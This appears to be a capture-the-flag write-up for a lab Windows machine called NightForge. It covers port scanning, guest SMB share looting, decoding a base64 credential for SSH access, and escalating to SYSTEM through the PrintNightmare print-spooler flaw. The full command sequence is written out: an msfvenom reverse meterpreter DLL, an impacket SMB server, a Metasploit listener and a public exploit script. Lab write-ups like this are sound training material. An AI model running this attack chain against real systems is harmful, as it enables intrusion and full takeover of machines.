


## Overview
NightForge is a machine that runs Windows with an Easy difficulty level. Performed network port/service discovery on target 10.1.2.172 to identify exposed services (SSH, SMB, RPC/Print Spooler, etc.). Enumerated SMB shares as an unauthenticated/guest user and downloaded files from a publicly readable PUBLIC share for analysis. Found a printer maintainer credential encoded in base64; decoded it to obtain a plaintext password and used those creds to authenticate to an accessible service (SSH). After successful SSH access, enumerated filesystem (C:\ drive) and discovered a hint file indicating an outdated printer componen. Correlated hint text and public research to identify a known print-spooler vulnerability (commonly known as “PrintNightmare”, assigned CVE ID(s) in public advisories). Using a DLL payload delivery method and an SMB host to deliver it; once the payload executes we gaining a reverse meterpreter session and validated success via basic commands.

## Information Gathering
As part of a penetration testing activity on the target IP address 10.1.2.172, the first step was to conduct reconnaissance to identify open ports and running services. This was done to determine the potential attack surface and further exploitation approaches.

```shell
➜ nightforge  PORTS=$(nmap -p- 10.1.2.172 --min-rate 1000 -T4 -Pn | grep open | awk '{print $1}' | cut -d '/' -f1 | tr '\n' ',')
➜ nightforge  nmap -sCV -p$PORTS 10.1.2.172 -oA nmap/nightforge -Pn
Nmap scan report for 10.1.2.172
Host is up (0.42s latency).

PORT      STATE SERVICE       VERSION
22/tcp    open  ssh           (protocol 2.0)
| fingerprint-strings:
|   NULL:
|_    SSH-2.0-OpenSSH_for_Windows_9.8 Win32-OpenSSH-GitHub
135/tcp   open  msrpc         Microsoft Windows RPC
445/tcp   open  microsoft-ds?
49669/tcp open  msrpc         Microsoft Windows RPC
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port22-TCP:V=7.97%I=7%D=10/14%Time=68EDE4D4%P=x86_64-pc-linux-gnu%r(NUL
SF:L,36,"SSH-2\.0-OpenSSH_for_Windows_9\.8\x20Win32-OpenSSH-GitHub\r\n");
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: -17d04h45m52s
| smb2-time:
|   date: 2025-09-27T01:06:24
|_  start_date: N/A
| smb2-security-mode:
|   3.1.1:
|_    Message signing enabled but not required

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```
{: .nolineno}

I was able to enumerate the shares accessible from the guest account using netexec. There was a PUBLIC share with READ permissions, so I accessed it and downloaded all the files it contained for further analysis. 

```shell
➜ nightforge nxc smb 10.1.2.172 -u 'guest' -p '' --shares
SMB         10.1.2.172      445    NIGHTFORGE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:NIGHTFORGE) (domain:Nightforge) (signing:False) (SMBv1:False)
SMB         10.1.2.172      445    NIGHTFORGE       [+] Nightforge\guest:
SMB         10.1.2.172      445    NIGHTFORGE       [*] Enumerated shares
SMB         10.1.2.172      445    NIGHTFORGE       Share           Permissions     Remark
SMB         10.1.2.172      445    NIGHTFORGE       -----           -----------     ------
SMB         10.1.2.172      445    NIGHTFORGE       ADMIN$                          Remote Admin
SMB         10.1.2.172      445    NIGHTFORGE       C$                              Default share
SMB         10.1.2.172      445    NIGHTFORGE       IPC$            READ            Remote IPC
SMB         10.1.2.172      445    NIGHTFORGE       print$                          Drivers share
SMB         10.1.2.172      445    NIGHTFORGE       PUBLIC          READ            Public Anonymous Share

➜ nightforge smbclient //10.1.2.172/PUBLIC
Password for [WORKGROUP\]:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Wed Sep 24 16:57:11 2025
  ..                                  D        0  Wed Sep 24 16:57:11 2025
  chat_log.txt                        A      616  Wed Sep 24 16:55:02 2025
  error_log.txt                       A      609  Wed Sep 24 16:56:39 2025
  old_backup.bak                      A     2952  Wed Sep 24 16:57:11 2025
  printer_maintenance.yaml            A      188  Thu Sep 25 07:53:53 2025

                23435263 blocks of size 4096. 20742940 blocks available
smb: \> mask ""
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
getting file \chat_log.txt of size 616 as chat_log.txt (0.3 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \error_log.txt of size 609 as error_log.txt (0.4 KiloBytes/sec) (average 0.3 KiloBytes/sec)
getting file \old_backup.bak of size 2952 as old_backup.bak (1.6 KiloBytes/sec) (average 0.7 KiloBytes/sec)
getting file \printer_maintenance.yaml of size 188 as printer_maintenance.yaml (0.1 KiloBytes/sec) (average 0.6 KiloBytes/sec)
```
{: .nolineno}

The analysis results in the chat log showed that there was a problem in the form of an outdated printer that had not been updated, and I also found the printer maintainer credentials with a base64 encoded password.

```shell
➜ smb ls
 chat_log.txt    old_backup.bak
 error_log.txt   printer_maintenance.yaml
➜ smb cat *
[2024-03-15 10:23:45] Alice: Hey Bob, have you applied the latest system updates?
[2024-03-15 10:24:12] Bob: Not yet, waiting for maintenance window tonight.
[2024-03-15 10:25:01] Alice: Don't forget about the patches for that printer problem!
[2024-03-15 10:25:45] Bob: Roger that. Also, the backup server password needs rotation.
[2024-03-15 10:26:30] Alice: I'll handle it tomorrow. BTW, new intern starts Monday.
[2024-03-15 10:27:15] Bob: Great! I'll create a temporary account for them.
[2024-03-20 14:35:18] Alice: Thanks, that would help much!
[2024-03-20 14:36:02] Bob: Good. Let's monitor for any issues
<SNIP>
metadata:
 created: 2025-09-23
 type: backup
service:
 name: printer
 timeout_seconds: 30
maintainer:
 security pass: "cGFyYW5vaWE6YmFkX2RyMzRt"
 contact: "paranoia@nightforge.net"
```
{: .nolineno}

After discovering the domain names and domain controller, I added them to the /etc/hosts file to resolve the domain locally.

```shell
echo '10.1.2.172 nightforge.net' | sudo tee -a /etc/hosts
```
{: .nolineno}

## Initial Access
Decode the strings in the security pass variable using a combination of the echo and base64 commands with the -d option, I managed to get the plain text password and use the obtained credentials to log in to the ssh service.

```shell
➜ smb echo 'cGFyYW5vaWE6YmFkX2RyMzRt' | base64 -d
paranoia:bad_dr34m%
➜ smb ssh paranoia@nightforge.net
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'nightforge.net' (ED25519) to the list of known hosts.
paranoia@nightforge.net's password:
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

paranoia@NIGHTFORGE C:\Users\paranoia>
```
{: .nolineno}

After successfully logging in, I changed the command prompt to powershell to make it easier, then enumerated the C: drive and found a folder containing a file in the form of a hint.

```shell
paranoia@NIGHTFORGE C:\Users\paranoia>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\paranoia> cd C:\
PS C:\> ls
    Directory: C:\
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        9/15/2018  12:19 AM                PerfLogs
d-----        9/25/2025   5:16 PM                printshare
<SNIP>
PS C:\> cd .\printshare\
PS C:\printshare> ls
    Directory: C:\printshare
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        9/25/2025   5:16 PM              9 qc
PS C:\printshare> cat qc
spooler
PS C:\printshare>
```
{: .nolineno}

## Privilege Escalation
Referring to the initial chat log that stated there was an outdated printer and the hints obtained, I did some research using Google and found a CVE for the vulnerability.


_Figure 1. Public Exploit_

Use rpcdump to check if the target RPC pipe is available. If the output looks like the one below, the target is open.

```shell
➜ nightforge rpcdump.py @10.1.2.172 | egrep 'MS-RPRN|MS-PAR'
/home/isaac/.local/share/pipx/venvs/impacket/lib/python3.13/site-packages/impacket/version.py:12: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```
{: .nolineno}

Create a reverse shell payload with a dll extension using msfvenom that points to the attacker's IP address and Port.

```shell
➜ nightforge msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.18.201.137 LPORT=4444 -f dll -o payload.dll
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of dll file: 9216 bytes
Saved as: payload.dll
```
{: .nolineno}

Hosting SMB server using tools from impacket by adding `-smb2support` option to adjust the target version support, `smb` as the name of the shared folder and `.` as the current directory so that the DLL file containing the payload can be retrieved.

```shell
➜ nightforge python3 impacket/examples/smbserver.py -smb2support smb .
/home/isaac/.venv/lib/python3.13/site-packages/impacket/version.py:7: UserWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html. The pkg_resources package is slated for removal as early as 2025-11-30. Refrain from using this package or pin to Setuptools<81.
  import pkg_resources
Impacket v0.9.24.dev1+20210704.162046.29ad5792 - Copyright 2021 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```
{: .nolineno}

Set up a listener using msfconsole with a multi handler exploit and adjust the payload to the created dll file.

```shell
➜ nightforge msfconsole -q                                                              
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 10.18.201.137
LHOST => 10.18.201.137
msf6 exploit(multi/handler) > set LPORT 4444
LPORT => 4444
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.18.201.137:4444
```
{: .nolineno}

Use the exploit script publicly available on github and it will execute the printspooler vulnerability automatically.

```shell
➜ CVE-2021-1675 git:(main) python3 CVE-2021-1675.py 10.1.2.172/paranoia:bad_dr34m@10.1.2.172 '\\10.18.201.137\smb\payload.dll'
[*] Connecting to ncacn_np:10.1.2.172[\PIPE\spoolss]
[+] Bind OK
[+] pDriverPath Found C:\Windows\System32\DriverStore\FileRepository\ntprint.inf_amd64_83aa9aebf5dffc96\Amd64\UNIDRV.DLL
[*] Executing \??\UNC\10.18.201.137\smb\payload.dll
[*] Try 1...
[*] Stage0: 0
```
{: .nolineno}

Once the dll file is executed, a reverse shell session will open with the `meterpreter > ` flag and use some commands to validate the success of the exploit.

```shell
msf6 exploit(multi/handler) > run
[*] Started reverse TCP handler on 10.18.201.137:4444
[*] Sending stage (203846 bytes) to 10.1.2.172
[*] Meterpreter session 1 opened (10.18.201.137:4444 -> 10.1.2.172:51415)

meterpreter > sysinfo
Computer        : NIGHTFORGE
OS              : Windows Server 2019 (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 5
Meterpreter     : x64/windows
meterpreter > shell -i
Process 2272 created.
Channel 4 created.
Microsoft Windows [Version 10.0.17763.737]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\System32>whoami
whoami
nt authority\system
```
{: .nolineno}

## Evidence

_Figure 2. Exploited vulnerable service_